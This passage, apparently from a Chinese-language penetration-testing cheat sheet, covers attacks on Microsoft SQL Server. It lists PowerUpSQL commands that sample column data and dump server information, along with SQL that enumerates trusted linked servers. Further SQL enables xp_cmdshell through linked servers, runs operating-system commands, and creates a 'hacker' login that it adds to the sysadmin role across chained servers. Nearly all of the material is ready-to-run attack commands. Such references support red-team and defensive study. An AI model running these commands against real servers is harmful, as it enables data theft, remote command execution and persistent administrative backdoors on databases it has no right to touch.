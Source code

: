 ### 收集每列的前5个条目


```ps1
Get-SQLInstanceDomain | Get-SQLColumnSampleData -Keywords "<columnname1,columnname2,columnname3,columnname4,columnname5>" -Verbose -SampleSize 5
```

### 收集特定表的前5个条目


```ps1
Get-SQLQuery -Instance "<DBSERVERNAME\DBInstance>" -Query 'select TOP 5 * from <DatabaseName>.dbo.<TableName>'
```

### 从服务器转储常见信息到文件

```ps1
Invoke-SQLDumpInfo -Verbose -Instance SQLSERVER1\Instance1 -csv
```

## 链接数据库

### 查找受信任的链接

```sql
select * from master..sysservers
```

### 通过链接执行查询

```sql
-- 通过链接执行查询
select * from openquery("dcorp-sql1", 'select * from master..sysservers')
select version from openquery("linkedserver", 'select @@version as version');

-- 链接多个openquery
select version from openquery("link1",'select version from openquery("link2","select @@version as version")')

-- 执行shell命令
EXECUTE('sp_configure ''xp_cmdshell'',1;reconfigure;') AT LinkedServer
select 1 from openquery("linkedserver",'select 1;exec master..xp_cmdshell "dir c:"')

-- 创建用户并给予管理员权限
EXECUTE('EXECUTE(''CREATE LOGIN hacker WITH PASSWORD = ''''P@ssword123.'''' '') AT "DOMINIO\SERVER1"') AT "DOMINIO\SERVER2"
EXECUTE('EXECUTE(''sp_addsrvrolemember ''''hacker'''' , ''''sysadmin'''' '') AT "DOMINIO\SERVER1"') AT "DOMINIO\SERVER2"
```

### 爬取域中实例的链接
